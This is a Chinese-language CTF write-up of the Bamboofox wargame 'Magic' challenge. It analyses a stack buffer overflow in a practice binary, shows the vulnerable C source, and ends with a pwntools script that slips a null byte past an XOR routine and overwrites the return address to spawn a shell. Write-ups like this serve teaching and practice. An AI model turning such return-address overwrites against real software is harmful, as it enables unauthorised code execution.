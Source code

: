 ```yaml
---
title: 'Write-up:: Bamboofox-Wargame'
author: "TwinkleStar03"
tags: [BamboofoxCTF, Pwnable]
categories: [Write-Up]
date: 2019-07-21
---
```


Bamboofox CTF解題記錄，一如往常地到處找題目增進自己打CTF的戰力╰(*°▽°*)╯

<!--more-->

我選擇先從[這裡](https://bamboofox.cs.nctu.edu.tw/courses/2/challenges)開始做

-----

# Writeup #

-----

## Wargame 0-1 Magic [100] ##
>Description
Do you believe in magic?

>Hint
Stack buffer overflow

拿到檔案，magic: ELF 32-bit LSB executable，提示已經告知是Stack buffer overflow了，所以我直接IDA拆開來看了。

![有漏洞的函式Magic()](/images/BamboofoxCTF/Magic/disass.JPG)
然後還有一個never_use()可以用來開shell，所以題目應該是希望我們把ret address指到該函式。

從`ax, [ebp-44h]`可知buffer大小是0x44，然後因為`mov     dword ptr [esp], offset aS ; "%s"`可知scanf()的格式化參數是%s，所以可以用垃圾把Buffer塞爆。

已經了解Buffer overflow成立之後就來建構payload吧! 

需要塞0x44個byte進去把Buffer塞滿，這樣做之後會頂到ebp，所以在額外塞0x4個byte頂過ebp，這邊開始就是return address了! 蓋上never_use()的記憶體位置完成攻擊~
Payload: 0x48個byte + never_use()的位置

其實這樣攻擊是不會成功的，因為還有一個函式被忽略了，do_magic()，題目直接給出source
```c
void do_magic(char *buf,int n)
{
        int i;
        srand(time(NULL));
        for (i = 0; i < n; i++)
                buf[i] ^= rand()%256;
}

void magic()
{
        char magic_str[60];
        scanf("%s", magic_str);
        do_magic(magic_str, strlen(magic_str));
        printf("%s", magic_str);
}
```
如果不對do_magic進行繞過，那payload會直接跟亂數XOR變成垃圾QQ

由呼叫do_magic的地方可知控制XOR的次數是透過strlen()，這個函式會計算字串的字元數，停下來的方法是讀到一個\x00，那我們就提早讓他停下來就好!

所以payload變成: 0x1個byte + \x00 + (0x44 + 0x4 - 0x2) + never_use()的位置

```python Payload.py
from pwn import *


host = 'bamboofox.cs.nctu.edu.tw'
port = 10000

p = process('./magic')

# p = remote(host, port)

p.recvuntil(':')

p.sendline('A')

p.recvuntil(':')

p.sendline('A' + '\x00' + 'A' * 70 + p32(0x8048613))

p.interactive()
```

